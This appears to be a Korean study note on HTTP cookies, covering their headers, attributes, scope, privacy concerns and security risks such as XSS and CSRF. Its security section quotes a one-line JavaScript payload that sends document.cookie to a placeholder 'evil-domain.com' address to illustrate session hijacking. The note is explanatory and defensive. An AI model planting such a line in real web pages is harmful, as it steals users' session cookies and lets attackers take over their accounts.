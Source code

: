 ```yaml
---
title: "💻 03. HTTP 쿠키 :cookie:"
categories: network
tags: [ network ]
---
```


# HTTP 쿠키

## HTTP 쿠키란?

HTTP쿠키는 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 파일이다. 헨젤과 그레텔에서 주인공이 길을 지나며 남긴 빵 부스러기와 같다고 해서 붙여진 이름이다. 클라이언트는 그 데이터 파일을 저장해 놓았다가, 동일한 서버에 재 요청할 때 전송한다. 쿠키는 요청을 보낸 브라우저를 식별하는 데 주로 사용하며, 상태가 없는(stateless) HTTP 프로토콜에서 상태 정보를 기억시켜준다. 

## 쿠키의 목적

- 세션 관리(Session management)
  - 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- 개인화(Personalization)
  - 사용자 선호, 테마 등의 세팅
- 트래킹(Tracking)
  - 사용자 행동을 기록하고 분석하는 용도

## 클라이언트 측의 데이터 저장

데이터를 클라이언트 측에 저장할 때 쿠키를 사용하던 과거와 달리 지금은 modern storage APIs를 사용할 것이 권장된다. 쿠키는 모든 요청마다 함께 전송되기 때문에 성능이 저하될 수 있기 때문이다.

## 저장된 쿠키 보기

- 개발자 도구 > Storage Inspector -> 스토리지 트리의 쿠키 스토리지

## 쿠키 만들기

### Set-Cookie 응답헤더와 Cookie 요청헤더

- `Set-Cookie`: 서버: 클라이언트야 쿠키 저장해!

```
Set-Cookie: 쿠키이름=쿠키값
Set-Cookie: 쿠키이름=쿠키값
```

- `Cookie`: 브라우저: 서버로 이전에 저장했던 모든 쿠키들 회신

```
Cookie: 쿠키이름1=쿠키값1; 쿠키이름2=쿠키값2
```

### Session 쿠키와 Permanent 쿠키

`Expires`나 `Max-Age`를 명시하지 않을 경우 클라이언트가 종료되면 삭제되는 **Session 쿠키**가 된다.  명시하면 클라이언트가 닫힐 때 만료되지 않는 **Permanent 쿠키**가 된다.

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; // Permanent 쿠키
```

### Secure 쿠키와 HttpOnly 쿠키

쿠키에 **Secure** 옵션을 줄 경우 **Https 프로토콜** 상에서 암호화된 요청일 경우만 전송된다.  **HttpOnly** 옵션을 줄 경우, **자바스크립트를 통해 쿠키 값에 접근하는 것을 막아** Cross-site 스크립팅 공격을 누그러뜨리는 데 도움을 줄 수 있다. 



### 쿠키의 스코프: Domain과 Path 속성

- `Domain`과 `Path` 디렉티브를 통해 특정 도메인 혹은 경로 제한 설정이 가능하다.
- `Domain`: 서브도메인 포함
  - 예를 들어, `Domain=naver.com`가 설정되면 쿠키들이 `dict.naver.com`, `news.naver.com`과 같은 서브 도메인 상에도 포함된다. 
- `Path`: 서브 디렉토리 포함
  - 예를 들어, `Path=/docs`가 설정되면 쿠키들이 `/docs`, `docs/Web/`, `docs/HTTP`와 같은 서브 디렉토리 상에도 포함된다.



### SameSite 쿠키

SameSite 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않게 한다.

### Document.cookie를 사용한 자바스크립트 접근

- `Document.cookie`를 사용해 쿠키를 만들어낼 수 있다. `HttpOnly`플래그가 설저어되지 않은 경우 기본 쿠키들은 자바스크립트로부터 잘 접근될 수 있다

```javascript
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy+cookie=choco; tasty_cookie=strawberry";
```



## 보안

### 세션 하이재킹과 XSS(Cross-Site Script**)**

**세션 하이재킹**이란 서버와 클라이언트 사이에서 이루어지는 통신에 낑겨서 클라이언트가 서버로 붙어 있는 세션을 탈취해오는 기술이다. **XSS(Cross-Site Script, 사이트 간 스크립팅)**는 권한이 없는 유저가 사이트 내에 악의적인 스크립트를 삽입하여 사용자의 쿠키, 세션 등을 탈취하거나, 의도하지 않은 비정상적인 행위를 하게끔 유도할 수 있는 취약점이다. 

HTTP 통신은 Stateless하기 때문에 기본적으로는 로그인을 해도 페이지 이동 시 로그아웃이 될 것이다. 따라서 서버는 세션을 이용하여 로그인 상태를 기억한다. 서버는 **Session** ID를 사용자에게 부여해주고 사용자는 쿠키를 이용해 Session ID를 저장한다. 공격자는 사용자와 서버 사이에 부여된 세션을 가로채 해당 사용자의 권한으로 사이트를 접근할 수 있게 된다. 소셜 공학을 사용하거나 애플리케이션 내의 XSS 취약점을 이용하여 쿠키를 가로챌 수 있다.

```javascript
(new Image()).src = "https://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

그렇다면 이를 방지하기 위해서는 어떻게 해야 할까? 쿠키에 `HttpOnly` 속성을 주면 자바스크립트를 통해 쿠키 값에 접근하는 것을 막아 공격을 누그러뜨리는 데 도움을 줄 수 있다.

### Cross-site 요청 위조 (CSRF)

불특정 다수를 대상으로 로그인된 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)을 요청하게 하는 공격이다. XXS을 이용한 공격이 사용자가 특정 웹사이트를 신용하는 점을 노린 것이라면, 사이트간 요청 위조는 특정 웹사이트가 사용자의 웹브라우저를 신용하는 상태를 노린 것이다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출된다.

## 트래킹과 프라이버시

### 서드파티 쿠키

퍼스트파티 쿠키는 웹사이트 운영자가, 서드파티는 외부 업체가 심는 것이다. 브라우저가 서드파티 쿠키를 지원하면 쿠키를 인터넷 광고 업체 등 제3자에게 제공하는 것으로 기업 광고의 주요 자원이 된다. 광고주는 해당 쿠키로 이용자 성향을 파악해 타겟팅 광고를 할 수 있다. 그러나 이로 인한 개인 정보 침해 문제로 최근 많은 브라우저에서 서드파티 쿠키 지원을 중단하겠다고 발표했다. 

### DNT 요청 헤더 (Do Not Track)

사이트 내부 혹은 사이트간 트래킹 모두를 비활성화하는 신호로 사용된다.

### 좀비 쿠키와 에버쿠키

좀비 쿠키는 삭제 이후에 다시 생성되는 쿠키이다. 클라이언트 측 스크립트가 여러 곳(웹 스토리지 API, Flash로컬 공유 객체 등)에 쿠키 내용을 저장하고, 스크립트가 쿠키가 없음을 알아차리면 각 위치에 저장되어 있는 데이터를 사용하여 쿠키를 재생성한다. Evercookie는 좀비 쿠키를 생산하는 자바스크립트 기반 어플리케이션이다. 



## Reference

1. https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies

2. 생활코딩: Node.js - 쿠키와 인증 시리즈: https://youtu.be/i51xW3eh-T4

3. [https://ko.wikipedia.org/wiki/%EC%82%AC%EC%9D%B4%ED%8A%B8_%EA%B0%84_%EC%9A%94%EC%B2%AD_%EC%9C%84%EC%A1%B0](https://ko.wikipedia.org/wiki/사이트_간_요청_위조)

4. http://it.chosun.com/site/data/html_dir/2020/02/16/2020021600579.html

5. https://gmyankee.tistory.com/86

6. http://wiki-camp.appspot.com/%5B%EB%B2%88%EC%97%AD%5D_HTTP_Cookie_%28Wikipedia%29?rev=2

7. https://ko.wikipedia.org/wiki/%EC%B6%94%EC%A0%81_%EA%B8%88%EC%A7%80

